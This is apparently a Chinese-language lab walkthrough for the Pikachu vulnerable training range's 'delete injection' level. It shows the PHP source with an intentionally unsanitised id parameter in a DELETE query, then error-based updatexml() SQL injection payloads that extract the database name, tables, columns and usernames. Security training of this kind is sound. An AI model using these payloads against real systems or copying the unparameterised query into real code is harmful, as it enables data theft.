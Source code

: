 # delete注入

# 一、代码审计

该关卡的代码如下

```php+HTML
<?php
/**
 * Created by runner.han
 * There is nothing new under the sun
 */


$SELF_PAGE = substr($_SERVER['PHP_SELF'],strrpos($_SERVER['PHP_SELF'],'/')+1);

if ($SELF_PAGE = "sqli_del.php"){
    $ACTIVE = array('','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','active open','','','','','','','active','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','');
}

$PIKA_ROOT_DIR =  "../../";
include_once $PIKA_ROOT_DIR . 'header.php';

include_once $PIKA_ROOT_DIR . "inc/config.inc.php";
include_once $PIKA_ROOT_DIR . "inc/function.php";
include_once $PIKA_ROOT_DIR . "inc/mysql.inc.php";


$link=connect();
$html='';
if(array_key_exists("message",$_POST) && $_POST['message']!=null){
    //插入转义
    $message=escape($link, $_POST['message']);
    $query="insert into message(content,time) values('$message',now())";
    $result=execute($link, $query);
    if(mysqli_affected_rows($link)!=1){
        $html.="<p>出现异常，提交失败！</p>";
    }
}


// if(array_key_exists('id', $_GET) && is_numeric($_GET['id'])){
//没对传进来的id进行处理，导致DEL注入
if(array_key_exists('id', $_GET)){
    $query="delete from message where id={$_GET['id']}";
    $result=execute($link, $query);
    if(mysqli_affected_rows($link)==1){
        header("location:sqli_del.php");
    }else{
        $html.="<p style='color: red'>删除失败,检查下数据库是不是挂了</p>";
    }
}


?>





<div class="main-content">
    <div class="main-content-inner">
        <div class="breadcrumbs ace-save-state" id="breadcrumbs">
            <ul class="breadcrumb">
                <li>
                    <i class="ace-icon fa fa-home home-icon"></i>
                    <a href="../sqli.php">sqli</a>
                </li>
                <li class="active">delete注入</li>
            </ul><!-- /.breadcrumb -->
            <a href="#" style="float:right" data-container="body" data-toggle="popover" data-placement="bottom" title="tips(再点一下关闭)"
               data-content="删除留言的的时候,好像有点问题">
                点一下提示~
            </a>


        </div>
        <div class="page-content">

            <div id="sqli_del_main">
                <p class="sqli_del_title">我是一个不正经的留言板：</p>
                <form method="post">
                    <textarea class="sqli_del_in" name="message"></textarea><br />
                    <input class="sqli_del_submit" type="submit" name="submit" value="submit" />
                </form>
                <?php echo $html;?>
                <br />
                <div id="show_message">
                    <p class="line">留言列表：</p>

                    <?php
                    $query="select * from message";
                    $result=execute($link, $query);
                    while($data=mysqli_fetch_assoc($result)){
                        //输出转义，防XSS
                        $content=htmlspecialchars($data['content'],ENT_QUOTES);
                        echo "<p class='con'>{$content}</p><a href='sqli_del.php?id={$data['id']}'>删除</a>";
                    }
                    ?>
                </div>
            </div>




        </div><!-- /.page-content -->
    </div>
</div><!-- /.main-content -->





<?php
include_once $PIKA_ROOT_DIR . 'footer.php';

?>
```

通过观察源码可以看到该代码对SQL注入是无任何防护的

***

# 二、通关教程

使用BurpSuite抓包后可以看时提交的输入如下

```
# 通过GET方式提交
id=62
```

可以推算出删除留言时大概的SQL语句如下：

```
delete from 表名 where id=xx
```

与insert注入类似，同样使用到updatexml()方法

猜数据库名

```
and updatexml(1,concat(0x7e,(select database()),0x7e),1)
```

![image-20230305145346504](C:\Users\linyunong\Desktop\Note\pikachu靶场通关教程\Sql Inject(SQL注入)\images\image-20230305145346504.png)

爆表名

```
and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu' limit 3,1),0x7e),1)
```

![image-20230305145429014](C:\Users\linyunong\Desktop\Note\pikachu靶场通关教程\Sql Inject(SQL注入)\images\image-20230305145429014.png)

爆列名，此处与上方同理

```
and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 0,1),0x7e),1)
```

![image-20230305145603328](C:\Users\linyunong\Desktop\Note\pikachu靶场通关教程\Sql Inject(SQL注入)\images\image-20230305145603328.png)

爆数据

```
and updatexml(1,concat(0x7e,(select username from users limit 0,1),0x7e),1)
```

![image-20230305145734768](C:\Users\linyunong\Desktop\Note\pikachu靶场通关教程\Sql Inject(SQL注入)\images\image-20230305145734768.png)


